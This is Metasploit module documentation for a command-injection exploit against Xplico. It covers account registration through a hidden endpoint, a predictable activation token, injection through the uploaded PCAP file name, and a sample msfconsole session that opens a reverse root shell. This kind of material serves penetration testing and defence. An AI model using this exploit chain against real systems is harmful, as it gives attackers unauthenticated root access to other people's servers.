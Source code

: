 ## Vulnerable Application
This module exploits command injection vulnerability. Unauthenticated users can register a new account and then execute a terminal command under the context of the root user.

The specific flaw exists within the Xplico, which listens on TCP port 9876 by default. The goal of Xplico is extract from an internet 
traffic capture the applications data contained. There is a hidden end-point at inside of the Xplico that allow anyone to create
 a new user. Once the user created through /users/register endpoint, it must be activated via activation e-mail. After the registration Xplico try
to send e-mail that contains activation code. Unfortunately, this e-mail probably not gonna reach to the given e-mail address on most of installation.
But it's possible to calculate exactly same token value because of insecure cryptographic random string generator function usage.

One of the feature of Xplico is related to the parsing PCAP files. Once PCAP file uploaded, Xplico execute an operating system command in order to calculate checksum
of the file. Name of the for this operation is directly taken from user input and then used at inside of the command without proper input validation.

**Vulnerable Application Installation Steps**

Follow instruction from "from sourceforge" section at following URL. Don't forget install version 1.2.0 instead of 1.0.0. At the time of this writing, installation commands contains command for version 1.0.0 

[http://wiki.xplico.org/doku.php?id=ubuntu](http://wiki.xplico.org/doku.php?id=ubuntu)

You may also give a try to virtualbox image provided by maintainer of Xplico. I've tested this module against Xplico-1.1.0-ubuntu-13.10-i386.ova.
[https://sourceforge.net/projects/xplico/files/VirtualBox%20images/](https://sourceforge.net/projects/xplico/files/VirtualBox%20images/)

Username of the virtualbox image is "ubuntu" and password is "reverse".

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/securityonion_xplico_exec`
- [ ] Set `RHOST`
- [ ] Set `PAYLOAD cmd/unix/reverse_awk`
- [ ] Set `LHOST`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `New user successfully registered` in console.
- [ ] **Verify** that you are seeing `User successfully activated` in console.
- [ ] **Verify** that you are seeing `Successfully authenticated` in console.
- [ ] **Verify** that you are seeing `New Case successfully creted` in console.
- [ ] **Verify** that you are seeing `New Sols successfully creted` in console.
- [ ] **Verify** that you are seeing `PCAP successfully uploaded. Pcap parser is going to start on server side` in console.
- [ ] **Verify** that you are getting `We are at PCAP decoding phase. Little bit more patience...` in console.
- [ ] **Verify** that you have your root shell.

## Scenarios

```
msf > use exploit/linux/http/securityonion_xplico_exec
msf exploit(securityonion_xplico_exec) > set RHOST 12.0.0.30
RHOST => 12.0.0.30
msf exploit(securityonion_xplico_exec) > 
msf exploit(securityonion_xplico_exec) > exploit 

[-] Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/
set payload cmd/unix/generic         set payload cmd/unix/reverse_netcat
set payload cmd/unix/reverse_awk     
msf exploit(securityonion_xplico_exec) > set payload cmd/unix/reverse_awk 
payload => cmd/unix/reverse_awk
msf exploit(securityonion_xplico_exec) > set LHOST 12.0.0.1 
LHOST => 12.0.0.1
msf exploit(securityonion_xplico_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: mwbvnyowr
[*] Password: gHPkAvCTXFDVcfTwaAmfoJUoMNHNDIDT
[*] Calculating em_key code of the user
[*] Activating user with em_key = 159d4af63472e2a47e3f3c5c11205a5e
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully created. Our pol_id = 36
[*] Creating new xplico session for pcap
[+] New Sols successfully created. Our sol_id = 54
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (12.0.0.1:4444 -> 12.0.0.30:39782) at 2017-11-08 14:44:52 +0300

id
uid=0(root) gid=0(root) groups=0(root)
```